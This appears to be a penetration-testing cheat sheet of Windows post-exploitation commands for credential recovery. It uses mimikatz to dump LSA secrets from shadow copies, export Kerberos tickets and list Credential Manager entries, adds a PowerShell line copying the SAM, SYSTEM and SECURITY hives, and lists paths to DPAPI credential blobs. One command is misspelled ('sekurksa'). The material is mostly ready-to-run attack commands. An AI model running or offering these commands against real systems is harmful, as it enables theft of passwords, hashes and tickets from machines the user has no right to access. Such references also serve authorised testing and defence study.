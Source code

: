 ## mimikatz - extract credentials from shadow copy (2)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER

Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## extract - on hand shadow volume copy
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```

% mimikatz, tickets

## mimikatz - tickets - list
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
sekurksa::tickets
```

## mimikatz - tickets - extract 
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
sekurlsa::tickets /export
```

% mimikatz, dpapi, credman


## mimikatz - credman - List Credentials Manager
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
sekurlsa::Credman
```


## mimikatz - dpapi - check the file to get guidMasterKey
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

Seatbelt come in handy for enumerating credential blob files' location
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\

